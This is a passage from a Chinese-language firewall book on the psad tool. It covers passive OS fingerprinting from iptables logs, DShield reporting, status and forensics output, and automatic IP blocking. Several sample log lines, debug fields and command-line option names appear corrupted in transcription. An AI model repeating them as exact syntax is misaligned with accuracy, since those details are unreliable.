- 分片位（Fragmentation bit）
- 初始 TTL 值
- 最大分段大小（MSS）
- 整体 SYN 数据包大小
- TCP 选项值及其顺序
- TCP 窗口大小

`p0f` 使用自定义的签名格式来存储每个 OS 对应的上述特定参数。例如，这是一个运行 2.5 内核的 Linux 系统的指纹（该签名需要更新，因为它实际上是指向稳定的 2.6 内核而非 2.5 开发内核，且指纹中也为 2.4 内核留有余地）：

```text
S3:64:1:60:M*,S,T,N,Wl,::Linux:2.5 (sometimes 2.4) (1)
```

`p0f` 签名格式包含几个由冒号（`:`）分隔的字段：

- 从左到右，第一个字段 `s3` 指的是 TCP 窗口大小。该字段指示 `p0f` 寻找窗口大小为最大分段大小（MSS）值的三倍倍数的 TCP SYN 数据包。

- 第二个字段 `64` 指的是 IP 报头中的 TTL 值；在本例中 TTL 为 64。由于数据包在互联网上传输时 TTL 值会递减，因此该字段指的是初始 TTL 值，`p0f` 允许数据包中的实际 TTL 值明显低于此值。

- 第三个字段 `1` 指的是 IP 报头中的不分片（DF）位。因为签名在该字段的值为 1，所以它在寻找 DF 位被设置的情况。

- 第四个字段 `60` 是整体数据包大小。在本例中，签名要求大小为 60 字节。

- 第五个字段 `M*,S,T,N,W1` 描述了 TCP 报头的选项部分。在本例中，签名在寻找任何 MSS，随后是选择性确认（S）、时间戳（T）、空操作（N）和窗口缩放因子（W1）选项。

### 注意

关于被动 OS 指纹识别（以及其他被动收集的信息）的全面论述可见于 Michal Zalewski 的 *Silence on the Wire*（No Starch Press，2005）。

### 使用 `psad` 模拟 `p0f`

为了在数据包报头上运行其指纹识别算法，`p0f` 使用 `libpcap` 直接从线路上嗅探数据包。相比之下，`psad` 包含基于 `p0f` 签名实现 OS 指纹识别的代码，但仅需要 `iptables` 日志消息作为数据输入。这是可能的，因为只要使用 `--log-tcp-options` 选项来引导 `LOG` 规则，`p0f` 检查的每个报头值（TCP 窗口大小、TTL 值、TCP 选项等）在 `iptables` 日志消息中同样可用。下面是一个日志消息示例，其中 TCP 报头的选项部分以粗体显示：

```text
Jul 14 22:03:42 iptablesfw kernel: DROP IN=eth1 OUT= MAC=00:13:46:3a:41:1b SRC=00a01cc: 28:4254:08:00 SRC=192.168.10.3 DST=192.168.10.1 LEN=60 TOS=0x10 GSP=0x10 PRX=0x00 TTL=64 ID= 37356 DF PROTO=TCP SPT=54323 DPT=23 WINDOW=5840 RES=0x00 SYN UGC=0 OPT (020405B 4040 2080A0B0CE70000000001030302)
```

### 从 `iptables` 日志中解码 TCP 选项

使用如上所示的日志消息实现 `p0f` OS 指纹识别的唯一难点在于，必须对日志中的 `OPT` 十六进制转储进行解码，以便与 `p0f` 签名匹配。`OPT` 字符串代表 TCP 报头中 TCP 选项部分的十六进制转储，通过逐字节检查此字符串并将其与 TCP 报头中可能的选项值集（`http://www.iana.org/assignments/tcp-parameters`）进行匹配，即可清楚地知道 SYN 数据包中使用了哪些选项。除了每个仅占一个字节的“选项列表结束”和“空操作（NOP）”选项外，每个选项都由一个类型指定，随后是长度，最后是值。这被称为类型-长度-值（TLV）编码。

例如，上述十六进制字符串的开头 `020405B4` 解码为：02 = 最大分段大小，04 = 长度（包括类型字节），05B4 = 1460（十进制值）。对整个十六进制转储进行类似的分析得出以下结果：

- 最大分段大小为 1460
- NOP
- 选择性确认 OK
- 时间戳为 188338970
- 窗口缩放因子为 2

这组选项与 `p0f` 指纹 `S4:64:1:60:M*,S,T,N,W2:Linux:2.5::Linux 2.5 (sometimes 2.4)` 匹配，这确实是正确的，因为我是从一台运行 2.6.11 内核的机器发起的对 TCP 23 端口的连接尝试，而 2.5 系列是 2.6 内核的开发系列。

通过将 SYN 数据包中的 TCP 选项与 `p0f` 签名进行匹配，`psad` 通常可以识别出哪个特定的远程操作系统正在探测你的 `iptables` 防火墙。然而，这一功能只有通过使用 `--log-tcp-options` 参数才能实现，因此我强烈建议你在将默认 `LOG` 规则添加到 `iptables` 策略时使用此选项。

## DShield 报告

DShield 分布式入侵检测系统（`http://www.dshield.org`）是收集和报告安全事件数据的重要工具。它作为一个集中仓库，接收来自开源和商业领域各种软件提供的数据，包括入侵检测系统、路由器和防火墙。

许多此类产品可以通过电子邮件或 Web 界面向 DShield 提交安全警报。可以在 `http://www.dshield.org/howto.php` 找到能够向 DShield 提交事件数据的客户端程序完整列表。

DShield 数据库被设计为一个全球资源；任何人都可以使用它来了解哪个 IP 地址正在攻击最大数量的任意目标、最常被攻击的端口和协议等等。

提交给 DShield 的事件数据的形式很重要。某些由防火墙或入侵检测系统记录的事件数据不适合纳入 DShield 数据库，因为它们并不代表开放互联网上的恶意流量。此类数据可能包括 RFC 1918 地址空间的内部网络主机之间的攻击，或者为了测试本地安全性而特意从外部站点（如 DShield 的 Up（`https://www.grc.com`））请求的端口扫描。

`psad` 支持将扫描数据自动通过电子邮件提交给 DShield。一旦你在 DShield 网站注册，可以通过编辑 `/etc/psad/psad.conf` 中的 `DSHIELD_USER_ID` 变量将你的用户名包含在电子邮件提交中，但 DShield 也接受来自匿名源的日志信息，因此注册并非必须。默认情况下，当启用 DShield 报告时，`psad` 每六小时发送一次提交邮件，但该间隔可以通过调整 `DSHIELD_ALERT_INTERVAL` 变量来控制。（`psad` 会小心地不包含源自 RFC 1918 地址或因 `/etc/psad/auto_dl` 中危险等级设置为零而应被忽略的地址的扫描数据）。

### 注意

虽然 `psad` 默认未启用 DShield 报告，但 `psad` 安装程序 `install.pl` 会专门询问你是否希望启用它。除非你的安全策略明确禁止将安全事件数据传输给 DShield，否则我强烈建议启用它。

### DShield 报告格式

虽然 DShield 可以接受从 Snort 到 `iptables` 等各种软件生成的原始输出，但为了减轻 DShield 服务器的处理压力，以特定格式提交数据会很有帮助。该格式要求每个安全事件都单独占一行，作为一个包含以下内容的制表符分隔列表：

以下字段：

- Author（DShield 用户 ID，如果你没有在 `http://www.dshield.org` 注册，`psad` 默认将其设为零）
- Count（计数）
- Date（格式为 YYYY-MM-DD HH24:MI:SS Z，其中 Z 是时区）
- Protocol（来自 `/etc/protocols` 的数字条目或对应的文本，例如 TCP）
- Source IP address（源 IP 地址）
- Source port（源端口或 ICMP 类型）
- Target IP address（目标 IP 地址）
- Target port（目标端口或 ICMP 代码）
- TCP flags（仅限 TCP 警报数据）

### DShield 报告示例

如果你已配置 `psad` 将警报数据发送到 DShield，DShield 将向你发送一份汇总所有警报数据的每日报告。下面是从一份最近的 DShield 报告中截取的片段，该报告是在 `psad` 提交了 53 行警报数据后收到的。你可以看到左侧的端口号，随后是发送到这些端口的数据包数量、源 IP 地址数、目标 IP 地址数以及服务名称：

| Port | Packets | Sources | Targets | Service | Name |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 1434 | 9 | 8 | 1 | ms-sql-m | Microsoft-SQL-Monitor |
| 135 | 5 | 4 | 1 | epmap | DCE endpoint resolution |
| 139 | 7 | 4 | 1 | netbios-ssn | NETBIOS Session Service |
| 2100 | 3 | 2 | 1 | amiganetfs | amiganetfs |
| 1033 | 2 | 2 | 1 | | |
| 1521 | 2 | 1 | 1 | oracle | Oracle 8 SQL (default) |

## 查看 `psad` 状态输出

由于 `psad` 在监控 `iptables` 日志时会将各种数据存储在 `/var/log/psad` 目录下，你可以随意浏览该目录，以了解你的系统被扫描的严重程度。

当然，大多数人并不喜欢手动筛选海量的 `/var/log/psad/ip` 目录及其关联文件，因此 `psad` 通过提供查询本地文件系统以获取运行中的 `psad` 守护进程状态信息的能力来自动化这一过程。这需要从命令行执行 `psad` 并带有 `--Status` 参数，如清单 7-1 所示：

```text
[iptablesfw]# psad --Status
[+] psadwatchd (pid: 27812) %CPU: 0.0 %MEM: 0.0
    Running since: Mon Jul 2 13:58:07 2007

[+] kmsgd (pid: 27810) %CPU: 0.0 %MEM: 0.0
    Running since: Mon Jul 2 13:58:07 2007

[+] psad (pid: 27803) %CPU: 0.0 %MEM: 0.9
    Running since: Mon Jul 2 13:58:07 2007
    Command-line arguments: [none specified]
    Alert email address(es): mbr@cipherdyne.org

[+] Version: psad v2.0.4

[+] Top 50 signature matches:
    "SCAN FIN" (tcp), Count: 3229, Unique sources: 1, Sid: 621
    "MISC VNC communication attempt" (tcp), Count: 104, Unique sources: 22,
    Sid: 10020
    "Microsoft SQL Server communication attempt" (tcp), Count: 81,
    Unique sources: 11, Sid: 100205
    "MISC Windows popup spam attempt" (udp), Count: 45, Unique sources: 42,
    Sid: 100196

[+] Top 25 attackers:
    144.202.X.X DL 2, 4 Packets: 6571, Sig Count: 3311
    144.202.X.X DL 2, 4 Packets: 6571, Sig Count: 3311
    32.127.X.X DL 2, 3 Packets: 188, Sig count: 96
    124.224.X.X DL 2, 3 Packets: 2, Sig count: 1

[+] Top 20 scanned ports:
    tcp 135    200 packets
    tcp 445    197 packets
    tcp 139    126 packets

    udp 1027    22 packets
    udp 1026    22 packets
    udp 1434    13 packets

[+] iptables log prefix counters:
    "DROP": 4157
    "DROP INVALID": 3251

 DShield stats:
    total emails: 5
    total packets: 711

[+] iptables auto-blocked IPs:
[NONE]
[+] IP Status Detail:

SRC: 144.202.X.X, DL: 4, Dsts: 1, Pkts: 6571, Unique sigs: 1, Email alerts: 11
Source OS fingerprint(s):
SunOS 4.1:SunOS 4.1.X

DST: 71.157.X.X, Local IP
Scanned ports: tcp 135-5900, Pkts: 65301, Pkts: 6571, Chain: INPUT, Intf: eth0
Signature match: "SCAN FIN"
tcp, Chain: INPUT, Count: 464, DP: 132, FIN, Sid: 621

SRC: 71.157.X.X, DL: 3, Dsts: 1, Pkts: 188, Unique sigs: 1, Email alerts: 147
DST: 71.157.X.X, Local IP
Scanned ports: tcp 135-5900, Pkts: 188, Chain: INPUT, Intf: eth0
Signature match: "MSSQL Server communication attempt"
tcp, Chain: INPUT, Count: 1, DP: 1433, SYN, Sid: 100205

Total scan sources: 97
Total scan destinations: 3
[+] These results are available in: /var/log/psad/status.out
```

清单 7-1：`psad --status` 输出

上述输出包含多个部分，每个部分旨在向你提供 `psad` 当前跟踪的所有攻击的不同特征信息（最高级别的汇总信息位于顶部）。这些部分如下：

### `psad` 进程状态信息


在❶处，你将看到`psad`进程状态信息，包括进程 ID、进程运行时间以及进程当前占用的 CPU 和主内存百分比。专门针对`psad`守护进程，输出还包括启动守护进程时使用的命令行参数（如果有）以及配置`psad`发送警报邮件的电子邮件地址。

### 前 50 名签名匹配

在❷处，状态输出显示前 50 个签名匹配。若要让`psad`显示超过前 50 个匹配项，请增加`/etc/psad/psad.conf`文件中`STATUS_SIGS_THRESHOLD`变量的值。

### 前 25 名攻击者

❸处是前 25 个攻击 IP 地址的列表。若要让`psad`显示超过前 25 个攻击者，请增加`psad.conf`中`STATUS_IP_THRESHOLD`变量的值。通过前几名攻击者的列表，你可以针对那些对你的系统具有潜在威胁的开放互联网 IP 地址做出明智的决定。

### 前 20 个被扫描端口

❹处开始显示前 20 个被扫描的 TCP 和 UDP 端口。你可以通过增加`psad.conf`中的`STATUS_PORTS_THRESHOLD`变量来显示超过 20 个端口。如果某个特定服务出现了蠕虫病毒，前 20 个被扫描端口可能有助于说明针对该服务的蠕虫活动增加。如果你的网络中有易受此类蠕虫攻击影响的系统，此输出可以帮助你集中精力消除基础设施中的漏洞。

### 日志前缀

行❺记录了`psad`正在跟踪的日志前缀。如果你运行`fwsnort`（在第 9 章、第 10 章和第 11 章中讨论），此部分可能会包含大量信息，因为每个`fwsnort` `iptables`规则都有一个对应于不同 Snort 签名的日志前缀。此部分让你概览在`iptables`策略中最常触发的日志前缀——日志前缀按触发次数从多到少的顺序显示。

### DShield 统计数据

❻处是发送到 DShield 分布式 IDS 的电子邮件警报数量。同时还显示了`psad`收集并发送到 DShield 进行进一步分析的数据包总数。

### 自动封锁的 IP 地址

行❼显示了被`psad`封锁的 IP 地址。这需要将`ENABLE_AUTO_IDS`设置为 Y。无论`ENABLE_AUTO_IDS`是否设置为 N，自动响应信息始终显示在状态输出中，因为`psad`可能在之前启用自动响应功能的执行过程中封锁了一组 IP 地址（即使当前运行的`psad`实例未启用该功能）。

### 扫描 IP 地址详情

❽处开始列出`psad`当前跟踪的所有源 IP 地址，并且这些地址被分配了至少`DANGER_LEVEL1`的可疑流量严重程度衡量值。每个 IP 地址行还包括记录可疑数据包的`iptables`链和输入接口、来自该源 IP 地址的 TCP、UDP 和 ICMP 数据包数量分解、当前的危险等级、电子邮件警报数量，以及最后是对生成可疑流量的操作系统的猜测（参见第 120 页的“使用`p0f`进行被动 OS 指纹识别”）。

## 注意

尽管`psad`能够很好地将扫描信息写入`/var/log/psad`目录下的磁盘中，但还有另一种方法可以获取关于如何正在运行的`psad`守护进程正在执行的信息。通过执行`psad -U`命令（以 root 身份），运行中的`psad`实例将接收到一个 USR1 信号，该信号指示它使用`Data::Dumper` Perl 模块将内部用于跟踪扫描信息的主哈希数据结构内容转储到磁盘。生成的文件名为`/var/log/psad/scan_hash.pid`，其中`pid`是运行中`psad`守护进程的进程 ID。该输出的示例可以从 http://www.cipherdyne.org/linuxfirewalls 下载。

## 取证模式（Forensics Mode）

许多人的系统中都存放着包含`iptables`日志数据的旧 syslog 文件。通过使用`psad`的取证模式，这些旧日志文件可以用来告知您过去针对系统发生的可疑流量。如果您试图追踪一次真实的入侵，并想查看在系统被攻破前后有哪些 IP 地址可能在扫描您的系统，那么这些信息将变得尤为有用。要以取证模式运行`psad`，请使用`-A`命令行开关，如清单 7-2 中所示（部分输出已省略）：

```text
[iptablesfw]# psad -A
[+] Entering analysis mode. Parsing /var/log/messages
[+] Found 8804 iptables log messages out of 10000 total lines.
[+] Processed 1601 packets...
[+] Processed 8800 packets...
[+] Assigning scan danger levels...
    Level 1: 3 IP addresses
    Level 2: 213 IP addresses
    Level 3: 2 IP addresses
    Level 4: 2 IP addresses
    Level 5: 0 IP addresses

Tracking 222 total IP addresses
```

清单 7-2：`psad`取证输出

清单 7-2 中的输出包含告知您`psad`从日志文件中解析出的`iptables`日志消息总数的信息。输出还列出了五个危险级别中每个级别的 IP 地址总数。取证输出的其余部分（为了简洁而此处未显示）与前一节中的`--status`输出类似。这包括关于最常被扫描端口、顶级攻击者、签名匹配等详细信息。

默认情况下，在取证模式下，`psad`从`/var/log/messages`文件中解析`iptables`日志消息。您可以使用`-m`命令行参数更改此路径，如下所示：

```text
[iptablesfw]# psad -A -m /some/file/path
```

## 注意

在第 14 章中，我们将使用`psad`来分析和可视化来自 Honeynet 项目（http://www.honeynet.org）的一些`iptables`日志数据。

## 详细/调试模式（Verbose/Debug Mode）

为了查看`psad`在处理`iptables`日志消息时的内部工作机制，请使用`--debug`开关以高度详细模式运行`psad`：

```text
[iptablesfw]# psad --debug
```

这指示`psad`不要成为守护进程；这样它就可以在运行时将信息显示在 STDERR 上。这些信息包括从 MAC 地址到被动 OS 指纹识别信息的全部内容。以下是该输出的示例：

```text
Jul 11 16:21:31 iptablesfw KERNEL: DROP IN=eth0 OUT= MAC=00:13:d3:83:b6:e4: 00:90:5a:10:cc:17 src=12.17.X.X dst=127.X.X len=64 TOS=0x00 PREC=0x00 TTL=64 RES=0x00 SYN=TL3 AD=0x07 OPT (02040580101030301010800000000000000001010402)
[+] src mac address: 00:90:5a:10:cc:17
[+] dst mac address: 00:13:d3:83:b6:e4
[+] valid packet: 12.17.X.X (38970) -> 71.157.X.X (12754) tcp
[+] assign_auto_danger_level(): returned = 1
[+] pcap(): 17.17.X.X 32, 44, 64, frag_bit: 1, ttl: 43, win: 53760
[+] MBS: 1460, NOP, Win Scale: 3, MSS: 1460, NOP, Timestamp: 0, NOP, NOP, SACK
[+] match_sort_keywords():
[+] packet matched sort_keywords tcp keywords for sid: 247 (psad_id: 100011)
[+] "DDOS mstream client to handler"
[+] match_sort_keywords():
[+] assign_danger_level(): source IP: 12.17.X.X (dl: 0)
[+] assign_danger_level(): DL (handler assignment) = 2
[+] scan_logger(): source IP: 12.17.X.X
[+] scan_logger(): dst IP: 71.157.X.X
[+] scan_logerr(): generating email....
[+] scan_logerr_signatures(): src: 12.17.X.X dst: 71.157.X.X proto: tcp
[+] MAIN: number of new packets: 0
```

在上述❶处，`psad`将原始`iptables`日志消息打印到屏幕上，以便您可以看到`psad`在后续输出中分析的数据源。在❷处，有效数据包字符串表明`iptables`日志消息是完整的，并且包含所有预期的头部字段（在本例中为 TCP 数据包）。在❸处执行被动 OS 指纹识别算法，在❹处`psad`确定该 TCP 数据包匹配`/etc/psad/signatures`文件中的 mstream client to handler 签名。在❺处，由于 Snort 签名匹配，`psad`将危险级别 2 分配给源 IP 地址 12.17.X.X，最后在❻处生成`psad`电子邮件警报。

最后，还有两个额外的命令行开关可以帮助您从`psad`获取更多信息：`-d`和`--fw-dump`。`-d`选项指示`psad`将其配置以及本地系统 Perl 版本的详细信息转储到 STDOUT，而`--fw-dump`选项指示`psad`显示当前的`iptables`策略。

## 注意

`psad`非常小心，不在`-d`或`--fw-dump`输出中包含敏感信息（包括电子邮件地址、DShield 用户名、IP 地址等），因此您可以随意将输出通过电子邮件发送给他人以征求意见。这一功能对于诊断与扫描和攻击检测相关的棘手问题非常有用，因为它使人们能够在相同的配置下协作。

## 结语

在本章中，我们介绍了`psad`提供的一些高级功能，用于分析`iptables`日志消息中存在于数据包头部的攻击证据，以及被动识别远程操作系统并将信息报告给 DShield。这些活动都不涉及主动响应攻击或检测可疑的应用层负载。在第 8 章中，我们将看到`psad`如何动态地对攻击者实例化阻断规则，在第 9 章中，我们将看到`iptables`规则如何通过完整的应用层匹配能力来模拟 Snort 规则。

# 第 8 章：使用 PSAD 进行主动响应

入侵检测系统中人们普遍寻求的一项功能是自动响应攻击的能力。针对攻击者感知 IP 地址的网络流量响应可以采取多种形式，包括实例化防火墙阻断规则、修改路由表、针对 UDP 攻击生成 ICMP 端口/主机不可达数据包，以及针对通过 TCP 连接进行的攻击使用 TCP 重置。在本章中，我们将探讨`psad`提供的主动响应功能的特性、配置和实现。

## 入侵防御 vs. 主动响应

在当今多样化的计算机安全产品、技术和解决方案世界中，*入侵防御（intrusion prevention）*一词受到了广泛关注。这种关注很大程度上可能源于该术语所暗示的过于强大的含义，但这并不是说主动防止安全漏洞的概念没有价值。入侵保护技术涵盖了从主机级栈硬化机制（参见 http://pax.grsecurity.net 的 PaX 项目）到带有软件的内联网络设备，这些软件可以防止恶意数据包到达预期目标，同时允许所有其他流量畅通无阻。

相比之下，*主动响应（active response）*是指在检测到攻击后可针对攻击者采取的一组机制，这些机制不一定能挫败攻击。主动响应并不总是能防止初始攻击，这是一个重要的区别，它清晰地界定了入侵防御和主动响应之间的不同。最直观的理解方式是通过一个启发性示例。

2004 年的 Witty 蠕虫（http://www.lurhq.com/witty.html）利用了 Internet Security Systems（http://www.iss.net，现为 IBM 的一部分）开发的几种产品（包括 BlackICE 和 RealSecure）中 PAM ICQ 模块的一个漏洞。该蠕虫通过一个源端口为 4000 且目标端口随机的单个 UDP 数据包在系统之间传播。当易受攻击的系统监视到这样一个数据包时，数据包负载的内容会被执行，而不仅仅是被检查。在 Witty 蠕虫的具体案例中，数据包负载包含一段代码，它会将 65K 的数据（源自包含漏洞的同一个 DLL）写入本地磁盘驱动器的随机位置，从而缓慢地导致文件系统损坏。虽然这在初始感染时不会立即摧毁系统（例如，通过完全格式化磁盘），但随着时间的推移，它肯定会以微妙的方式破坏系统。

对于任何仍在运行易受攻击版本的 BlackICE 或 RealSecure 的用户，首要任务是从 http://www.iss.net/download 下载并安装补丁。另一个选择是配置本地数据包过滤器，不允许将任何源端口为 4000 的 UDP 数据包转发到内部网络；然而，这将是以……为代价的。

这可能会破坏跨越防火墙的 ICQ 服务。显然，这并非最优解决方案，因此真正需要的是能够检测专门与 Witty 蠕虫相关的数据包，并阻止它们进入本地网络的能力。检测需求很容易实现（在 Witty 蠕虫被初步发现后，很快就编写了 Snort 规则），但任何主动响应机制（例如发送 ICMP 端口不可达消息或动态重新配置防火墙规则集）对于该蠕虫都完全无效。由于整个攻击被封装在单个数据包中，攻击者能够利用两个重要事实：

- 向源 IP 地址发送 ICMP 端口不可达消息是没有意义的，因为攻击已经到达了目标。源 IP 地址并不关心目标 UDP 服务是否显示为不可达。
- 攻击数据包可以被伪造。从目标的角度来看，攻击可能看起来源自 Yahoo!、外部 DNS 服务器或上游路由器。因此，发送任何形式的响应数据包或实例化防火墙拦截规则可能会干扰基础网络连接。

真正阻止 Witty 蠕虫的唯一方法是使用一个能够对数据包内容做出细粒度决策（决定是否应转发）的内联设备。以内联模式运行的 Snort 以及运行转换后 Snort 规则的`iptables`都能提供此功能。由于在单包攻击被转发到目标系统后进行响应是徒劳的，这类攻击突显了主动响应机制与入侵防御机制之间的区别。

## 主动响应的权衡

通过生成会话中断流量或修改防火墙策略来自动响应攻击并非没有后果。攻击者可能会迅速注意到与目标系统的 TCP 会话被切断，或者与目标的全部连接已中断。最合理的结论是，目标系统部署了某种类型的主动响应机制来保护自身。如果主动响应系统被配置为响应相对无害的流量（如端口扫描或端口扫频），攻击者将极其容易滥用该响应机制并将其反向用于攻击目标。这也适用于那些可以通过某种方式交付而无需与目标进行双向通信的恶意流量（这使得攻击可以被伪造）。Witty 蠕虫就是一个完美的例子。

## 攻击类别

许多提供主动响应能力的代码软件（包括`psad`）提供了*将特定主机*或网络加入白名单的能力，这样即使攻击者伪造来自这些网络的端口扫描或其他恶意流量，响应机制也不会采取行动。然而，此类软件的管理员不太可能将每个重要系统都列入此名单，因此攻击者仅受限于个人创造力。TCP 闲置扫描（见[第 3 章](#)）*甚至要求扫描必须被伪造*才能正常运行。

一种更好的响应攻击策略是使响应机制仅对需要攻击者与目标之间进行双向通信的攻击做出响应。通常，这意味着攻击者已经建立了一个 TCP 连接并利用该连接交付攻击（例如针对 Web 应用程序的 SQL 注入攻击，或尝试通过监听 TCP 端口的应用程序中的缓冲区溢出漏洞强制目标执行 shell 代码）。

检测已建立 TCP 连接中的攻击要求检测系统维护一张已建立连接的表，并在这些连接中寻找攻击。虽然具有真实外观的序列号和确认号的 TCP 数据包最终仍可被伪造，但此类数据包并非真正已建立连接的一部分，由检测机制来判断这一点。

## 注意

我们将在[第 11 章](#)中看到，可以使用 Netfilter 的连接跟踪功能来配置`psad`，使其仅响应通过已建立 TCP 会话发送的攻击。

## 误报

所有入侵检测系统都具有产生*误报（false positives）*的倾向——即将活动错误地识别为恶意的警报。*漏报（false negatives）*，即在存在真实的恶意流量时未能生成事件，也相对常见。

`psad`也不例外，在运行`psad`时，你会遇到为良性流量生成事件的情况。通过仔细调优可以最大限度地减少误报，但它们总是有可能发生；因此，对被错误判定为恶意的流量自动做出响应不利于维持一般的网络连接。

尽管如此，许多安全管理员认为，某些类型的事件即使是由误判活动生成的，其潜在破坏性也足以证明采取严厉响应是合理的。例如，某些蠕虫疫情可能会给网络及其组成系统带来毁灭性打击，因此，如果存在被此类蠕虫感染的任何可能性，可以使用主动响应来尝试缓解疫情。

## 使用 psad 响应攻击

现在我们通过承认自动响应攻击系统中存在的权衡来缓和讨论，让我们转向`psad`提供的主动响应功能。`psad`响应攻击的主要方法是动态重新配置本地过滤策略，从而在可配置的时间段内拦截来自攻击者源 IP 地址的所有访问。

## 关于 TCPWRAPPERS 的说明


`psad`还支持重新配置`/etc/hosts.deny`文件，以指示`tcpwrappers`拒绝来自攻击者源 IP 地址的访问，但由于几个原因，这种机制不如使用`iptables`。首先，`tcpwrappers`只能拦截配置为使用`tcpwrappers`的守护进程；相比之下，`iptables`中的通用拦截规则意味着攻击者甚至无法通过目标系统的 IP 栈进行通信。其次，`tcpwrappers`仅在保护运行在本地系统上的守护进程时有效，而`psad`可能会在转发链（forward chain）中检测到扫描或其他恶意流量。最后，当守护进程受`tcpwrappers`保护时，攻击者能够与目标系统上的更多功能进行交互；而通过`iptables`可交互的功能较少，且这些功能中的任何一个（无论是内核空间还是用户空间）都有非零的概率包含安全漏洞。本章接下来的内容将集中讨论在`psad`中使用`iptables`进行主动响应。

动态重新配置本地`iptables`策略的能力意味着响应发生在网络层；例如，攻击者的 IP 地址被拦截，无法向上通过 IP 栈通信。如果攻击者在拦截规则实例化时与本地网络中的任何服务器拥有已建立的 TCP 会话，那么（由于拦截规则生成时没有伴随 TCP reset），所有 TCP 数据包将被丢弃，端点 TCP 栈将尝试重新传输数据直到超时。

### 功能

`psad`支持以下主动响应功能：

- 可配置的最小危险级别，攻击者必须达到此级别后才会添加`iptables`拦截规则

- 基于可配置的超时时间，使拦截规则成为永久性或临时性的能力

- 为所有拦截规则使用独立的`iptables`链，以免干扰本地系统上任何现有的`iptables`策略

- 在`psad`重启甚至系统重启后保留拦截规则

（此功能可配置，但默认设置会在`psad`启动时清除所有现有的封禁规则）

- 包含所有当前被封禁 IP 地址的状态输出，以及关联的`iptables`规则被移除前剩余的秒数

- 能够通过使用命令行参数`--ff-w-block-ip`和`--ff-w-rm-block-ip`，由外部进程指示`psad`对特定 IP 地址添加或删除封禁规则

- 能够区分端口扫描和触发签名匹配的攻击，并能将`iptables`中的封禁规则与其中任何一种关联

- 当 IP 地址被添加到`psad`封禁链或从中删除时发送电子邮件通知

### 配置变量

控制`psad`是否进入主动响应模式的最重要变量是`ENABLE_AUTO_IDS`，在`/etc/psad/psad.conf`文件中可以将其设置为`y`或`n`。当此功能启用时，其他几个变量（在下文讨论）将控制`psad`在尝试自动封禁攻击者时的各种运行方面。

`AUTO_IDS_DANGER_LEVEL`变量设置了一个 1 到 5 的阈值，这是 IP 地址在实例化封禁规则前必须达到的最低危险等级。通过调整端口扫描阈值、单个签名的危险等级（参见`/etc/psad/signatures`）和自动危险等级分配（参见`/etc/psad/auto_dl`），可以使`psad`对是否自动封禁某个 IP 地址做出细粒度的决策。例如，如果某个特定 IP 地址或网络（例如为了演示而设定的`192.168.1.0/24`）因为有扫描或入侵尝试的历史而被认为是已知恶意行为者，那么您可能希望通过在`/etc/psad/auto_dl`文件中添加以下行，来严格限制来自该地址的通信：

```
192.168.1.0/24	5;
```

这样，如果`192.168.1.0/24` C 类网络中的任何 IP 地址违反了过滤策略，无论`AUTO_IDS_DANGER_LEVEL`设置得有多高，都会针对该 IP 地址添加一条封禁规则。

在正常情况下，`iptables`被配置为不记录指向关键服务（如 Web 会话或 DNS 流量）的正当流量，因此`192.168.1.0/24`网络中的任何 IP 地址都可以不受干扰地访问此类服务，只要它不导致`iptables`记录数据包即可。

## 注意

“正当流量”在某种程度上是一个模糊的概念，在第 9 章和第 10 章中，我们将看到正当不仅意味着建立一个语法上有效的传输层连接；`iptables`还可以检查应用层数据是否存在攻击。

`AUTO_BLOCK_TIMEOUT`变量定义了`iptables`封禁规则生效的时间长度（以秒为单位）。默认值为 3,600 秒，即一小时。通过将`AUTO_BLOCK_TIMEOUT`设置为零，所有封禁规则将变为永久生效，并且只有在重启`psad`或重启系统时才会被删除（除非禁用了`FLUSH_IPT_AT_INIT`）。

`IPTABLES_BLOCK_METHOD`和`TCPWRAPPERS_BLOCK_METHOD`变量控制`psad`使用`iptables`还是`tcpwrappers`来封禁违规 IP 地址。如果`psad`被配置为响应攻击，那么建议的设置是启用`iptables`封禁。

`ENABLE_AUTO_IDS_REGEX`和`AUTO_BLOCK_REGEX`变量允许将对 IP 地址添加封禁规则的行为与日志前缀是否匹配特定正则表达式相绑定。这在封禁 IP 地址时非常有用，但仅限于在监控到需要通过已建立的 TCP 会话进行双向通信的攻击之后。由于端口扫描很容易被伪造，此功能提供了一种强大的机制，将封禁规则限制在并非由攻击者简单的伪造的 IP 地址上。

最后，其余用于自动封禁攻击者的重要配置变量控制`iptables`规则的创建方式。这些变量都以字符串`IPT_AUTO_CHAIN`开头，后面跟着一个整数（就像`DANGER_LEVEL(n)`变量一样），它们指定了影响`psad`如何向`iptables`添加规则的七个标准：

- 规则的`iptables`目标（例如`DROP`）

- 将规则应用于源地址、目的地址（或两者）

- 添加规则的表（例如`filter`表）

- 为自定义`psad`链添加跳转规则的`iptables`链

- 跳转规则在 said `iptables`链中的位置

- 自定义`psad`链的名称

- 新规则在自定义`psad`链中的位置

`psad`不仅维护封禁规则本身的创建和维护，还维护自定义`psad`跳转链以及从内置`iptables`链进入这些链的跳转规则。

默认的`IPT_AUTO_CHAIN(n)`变量指示`psad`为触发`AUTO_IDS_DANGER_LEVEL`阈值的 IP 地址总共添加四条封禁规则：

- 在`PSAD_BLOCK_INPUT`链中针对违规 IP 地址设置一条`DROP`规则，强制数据包跳转到此链，从而使攻击者发往本地系统的数据包永远无法与本地套接字通信。

- 在`PSAD_BLOCK_OUTPUT`链中针对违规 IP 地址设置一条`DROP`规则，使得源自本地系统的数据包永远无法返回给攻击者。

- 在`PSAD_BLOCK_FORWARD`链中针对违规 IP 地址设置两条`DROP`规则，限制源自或发往违规 IP 地址的数据包。⁴⁶

  这样，如果`iptables`防火墙保护的是内部网络中的系统，任何攻击者都无法与该系统建立连接。

作为参考，`/etc/psad/psad.conf`文件中的默认`IPT_AUTO_CHAIN(n)`变量如下所示：

```
IPT_AUTO_CHAIN1 DROP, src, filter, INPUT, 1, PSAD_BLOCK_INPUT, 1;
IPT_AUTO_CHAIN2 DROP, dst, filter, OUTPUT, 1, PSAD_BLOCK_OUTPUT, 1;
IPT_AUTO_CHAIN3 DROP, both, filter, FORWARD, 1, PSAD_BLOCK_FORWARD1, 1;
```

> ⁴⁵ 正如在第 3 章中讨论的，`iptables`可以通过使用`REJECT`目标发送重置数据包以中断 TCP 连接，但`psad`不支持在实例化针对攻击者的通用`DROP`规则的同时使用此功能。

> ⁴⁶ 在这种情况下，两条`iptables`规则是通过在相应的`IPT_AUTO_CHAIN`变量中使用`both`指令创建的（即，仅需要一个`IPT_AUTO_CHAIN`变量即可创建这两条规则）。

## 主动响应示例

